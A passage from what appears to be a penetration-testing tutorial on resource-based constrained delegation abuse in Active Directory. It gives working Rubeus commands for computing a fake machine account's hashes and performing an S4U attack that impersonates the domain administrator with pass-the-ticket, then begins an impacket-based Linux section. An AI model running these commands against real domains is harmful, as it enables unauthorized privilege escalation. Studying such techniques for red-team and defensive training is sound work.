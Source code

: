 * Modifies the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute
* Adds your fake computer's SID to the **security descriptor**
* Allows your fake computer to **impersonate users** on the target

#### Performing S4U Attack

> **S4U (Service-for-User)** is a **Kerberos extension** that allows a service to obtain tickets on behalf of users. It consists of **two components** that are often exploited for privilege escalation
>
> * S4U2Proxy (Service for User to Proxy)
> * S4U2Self (Service for User to Self)

In order to do this, let's download and import `Rubeus.exe`

* **Rubeus** is a **C# toolset for raw Kerberos interaction and abuse** that enables ticket extraction, *pass-the-ticket attacks*, *golden/silver ticket* creation, and **S4U** delegation exploitation in *Active Directory* environments.

First of all, we the *FAKE* computer with the password `Password123!`, so we need the hash of that password. Keep in mind that the `domain.com` shown on the command corresponds to the actual domain we are in

```powershell
.\Rubeus.exe hash /password:Password123! /user:FAKE$ /domain:domain.com
```

> **Output:** Provides **RC4, AES128, and AES256** hashes of the machine account password.

Now let's request the service ticket for the *CIFS* service. Again keep in mind that that the `target.com` shown is the target domain we want to attack and the *administrator* user is the user we want to impersonate

```powershell
.\Rubeus.exe s4u /user:FAKE$ /rc4:<RC4-HASH> /impersonateuser:administrator /msdsspn:cifs/target.com /domain:domain.com /ptt
```

> **Output**: Provides the tickets needed

From now, you successfully attacked **RBCD**, you can check the admin's ticket using klist

```c
klist
```

## 4. Exploitation from Linux

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FwM71JlKyVXdIIbCKf5DS%2Fimage.png?alt=media&#x26;token=377b0e3f-6f70-48fd-82ae-f934ac2aa895" alt=""><figcaption></figcaption></figure>

#### 4.1 Download toolset

In order to continue with the exploitation, we need to install `impacket` if we don't have it installed on our attacker system

> **Impacket** is a **collection of Python classes and scripts for working with network protocols** that provides programmatic low-level access to protocols like SMB, MSRPC, Kerberos, and LDAP for penetration testing and red team operations.

